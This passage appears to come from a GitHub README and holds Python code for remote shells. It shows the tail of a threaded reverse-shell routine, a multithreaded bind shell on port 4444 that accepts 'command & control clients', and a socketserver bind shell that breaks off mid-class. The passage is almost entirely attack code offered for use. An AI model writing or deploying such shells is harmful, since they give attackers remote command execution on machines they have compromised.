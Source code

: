 ```python
        print(f"Connected: {host}:{port}")
        
        _spawn(rshell, host, port) # function, remove self.
        
if __name__ == "__main__":
    threaded_shells()
```

# Bind Shell (Server)

I've also coded up a multithreaded solution for bind shells.

```python
from subprocess import Popen, PIPE, STDOUT
from threading  import Thread
import socket, os

HOST, PORT = '', 4444

@infinite
def bind_shell():
    dual = socket.has_dualstack_ipv6()
    fam  = socket.AF_INET6 if dual else socket.AF_INET
    
    with socket.create_server((HOST, PORT), family=fam, dualstack_ipv6=dual) as bshell:
        host, port, *_ = bshell.getsockname()
        print(f"Binding: {host}:{port}")
        
        # infinitely accept new command & control clients
        while True:
            clientSocket, (ip, port, *_) = bshell.accept()
            print(f"{ip}:{port}> joined ...")
            
            Thread(target=client_handler, args=(clientSocket, ip, port)).start()

def client_handler(clientSocket, ip, port):
    with clientSocket:
        _spawn(clientSocket, ip, port, True) # function, remove self.

if __name__ == "__main__":
    bind_shell()
```

# Bind Shell (SocketServer)

Socketserver with the ThreadingMixIn allows us to achieve a multithreaded bindshell using this module.

```python
from subprocess import Popen, PIPE, STDOUT
import socketserver

HOST, PORT = '', 4444

def bind_shell():
    with ThreadedTCPServer((HOST, PORT), ThreadedBindHandler) as bshell:
        ip, port = bshell.server_address
        print(f"Binding to: {ip}:{port}")
        bshell.daemon = True
        bshell.serve_forever()

class ThreadedBindHandler(socketserver.BaseRequestHandler):
    # """
```
